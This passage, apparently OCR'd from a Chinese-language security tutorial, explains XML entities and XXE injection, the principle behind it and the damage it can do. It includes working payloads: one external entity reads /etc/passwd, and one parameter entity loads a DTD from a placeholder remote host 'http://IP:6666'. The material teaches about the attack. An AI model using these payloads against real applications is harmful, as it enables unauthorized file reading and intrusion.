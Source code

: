 ```xml
<!DOCTYPE note [
  <!ENTITY author "John Smith">
]>
<user><username>&author;</username><password>1</password></user>
```

#### 外部实体引用

```xml
<!DOCTYPE note [
  <!ENTITY author SYSTEM "author.txt">
]>
<note>
  <to>Tove</to>
  <from>Jani</from>
  <heading>Reminder</heading>
  <body>Hello &author;!</body>
</note>
```

#### 参数实体引用

```xml
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE message [
<!ENTITY % remote SYSTEM "http://IP:6666">
%remote;
]>
<message></message>
```

## XML外部实体注入攻击

### 漏洞原理

在目标应用程序没有禁用外部实体的情况下，并且没有对用户的数据进行严格的过滤验证，就可能导致XML解析器解析受攻击者控制的外部实体文件，并且执行恶意代码。

### 漏洞危害

任意文件读取，系统命令执行，探测内网端口，攻击内网网站

### 攻击

> 有回显

- #### 内部DTD声明+外部通用实体声明

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ 
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]> 
<user><username>&xxe;</username><password>1234</password></user>
```
